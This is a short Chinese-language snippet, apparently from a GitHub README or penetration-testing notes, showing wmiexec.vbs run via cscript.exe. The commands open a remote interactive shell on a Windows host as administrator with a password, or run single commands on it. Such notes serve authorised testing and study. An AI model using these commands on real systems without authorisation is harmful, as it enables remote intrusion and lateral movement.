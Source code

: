 获得交互式shell：
~~~bash
cscript.exe //nologo wmiexec.vbs /shell 10.1.1.2 administrator 1234567.com
~~~
执行单条命令：
~~~bash
cscript.exe //nologo wmiexec.vbs /shell 10.1.1.2 administrator 1234567.com "ipconfig"
~~~
